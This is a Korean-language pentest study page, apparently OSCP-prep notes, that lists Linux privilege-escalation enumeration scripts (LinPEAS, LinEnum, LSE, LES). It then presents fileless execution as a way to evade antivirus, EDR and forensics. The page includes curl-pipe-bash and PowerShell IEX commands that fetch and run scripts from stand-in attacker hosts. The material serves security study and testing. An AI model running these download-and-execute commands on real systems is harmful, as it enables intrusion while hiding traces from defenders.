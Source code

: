 ```yaml
---
layout: page
title: Linux_Automated_Enum
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


# Linux 자동화 정보 수집 및 스텔스 실행 가이드

Linux 권한 상승의 첫 단계는 시스템의 설정 오류나 취약점을 찾는 것입니다. 자동화된 정보 수집 스크립트는 이 과정을 대폭 단축시켜주며, 시스템의 전반적인 보안 상태를 빠르게 파악하는 데 매우 유용합니다.

이 문서는 주요 자동화 도구와 함께, 공격 흔적을 최소화하는 고급 실행 기법을 소개합니다.

https://0xy37.medium.com/linux-pe-cheatsheet-oscp-prep-9affaebd0f0e

---

### **1. 주요 자동화 정보 수집 도구**

다음은 Linux 권한 상승 벡터를 찾는 데 가장 널리 사용되는 스크립트들입니다.

- **LinPEAS (Linux Privilege Escalation Awesome Script)**
  - **[GitHub 링크](https://github.com/peass-ng/PEASS-ng)**
  - **설명:** 가장 유명하고 강력한 도구 중 하나입니다. 시스템의 거의 모든 정보를 다채로운 색상으로 구분하여 출력해주므로, 취약점을 한눈에 파악하기 좋습니다. SUID 파일, Cron 작업, 열린 포트, 버전 정보 등 방대한 정보를 수집합니다.

- **LinEnum**
  - **[GitHub 링크](https://github.com/rebootuser/LinEnum)**
  - **설명:** 오래전부터 사용되어 온 신뢰성 있는 스크립트입니다. 시스템 정보, 사용자 정보, 커널 및 서비스 버전 등을 체계적으로 스캔하고 보고서를 생성합니다.

- **LSE (Linux Smart Enumeration)**
  - **[GitHub 링크](https://github.com/diego-treitos/linux-smart-enumeration)**
  - **설명:** 수집된 정보의 중요도에 따라 색상을 다르게 표시하여, 권한 상승과 직결될 가능성이 높은 항목을 쉽게 식별할 수 있도록 도와줍니다.

- **LES (Linux Exploit Suggester)**
  - **[GitHub 링크](https://github.com/The-Z-Labs/linux-exploit-suggester)**
  - **설명:** 시스템의 커널 버전을 기반으로, 공개적으로 알려진 커널 익스플로잇(Exploit) 목록과 그 가능성을 제시해주는 데 특화된 도구입니다.

---

### **2. 파일리스 인메모리 실행 (Fileless In-Memory Execution)**

보안이 강화된 시스템에서는 디스크에 파일을 생성하는 행위 자체가 탐지될 수 있습니다. **인메모리 실행**은 스크립트를 디스크에 저장하지 않고, 네트워크를 통해 직접 메모리로 로드하여 실행하는 고급 스텔스 기법입니다.

#### **`curl | bash`: 공격 흔적 최소화 기법**

- **사용 목적:**
  - **탐지 회피:** 백신(AV)이나 EDR의 파일 기반 정적 분석을 우회합니다.
  - **흔적 최소화:** 시스템에 공격 스크립트 파일(Artifact)을 남기지 않아 포렌식 분석을 어렵게 만듭니다.

- **동작 원리:**
  1. **`curl [URL]`**: 지정된 URL에서 스크립트의 **내용**을 다운로드하여 **표준 출력(stdout)**으로 화면에 내보냅니다.
  2. **`|` (파이프)**: `curl`의 표준 출력을 가로채서, 다음에 오는 `bash` 명령어의 **표준 입력(stdin)**으로 직접 전달합니다.
  3. **`bash`**: 파일이 아닌 표준 입력으로부터 스크립트 내용을 읽어, 메모리상에서 한 줄씩 즉시 실행합니다.

#### **실행 예시**

```bash
# hello.sh 내용
echo "Hello! This script was executed directly from memory."
```

```bash
# 공격자 머신(Kali)에 hello.sh를 위치시킨 후, 웹 서버를 실행
python3 -m http.server 80
```

```bash
# 타겟 시스템에서 curl을 이용해 스크립트를 다운로드하고, 그 내용을 파이프로 bash에 전달하여 바로 실행
curl -s http://<attacker_ip>/hello.sh | bash
```

#### **WinPEAS / LinPEAS 실행 예시**

실제 침투 테스트 상황에서는 권한 상승 정보 수집 스크립트인 `LinPEAS`(리눅스용)나 `WinPEAS`(윈도우용)를 실행할 때 이 기법이 널리 사용됩니다.

```bash
# 공격자의 웹 서버에서 LinPEAS 스크립트를 받아 바로 실행
curl -s http://attacker-server.com/linpeas.sh | bash
```


```powershell
# PowerShell을 이용해 원격 스크립트를 다운로드하고 메모리에서 실행
# 윈도우에서는 bash 대신 PowerShell의 IEX (Invoke-Expression)를 사용하는 것이 일반적입니다. 원리는 동일합니다.
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker-server.com/winpeas.ps1')"
```

이 명령어는 `Net.WebClient` 객체를 사용해 원격 스크립트의 내용을 문자열로 다운로드한 후, `IEX`를 통해 해당 문자열을 PowerShell 코드로 즉시 실행합니다.

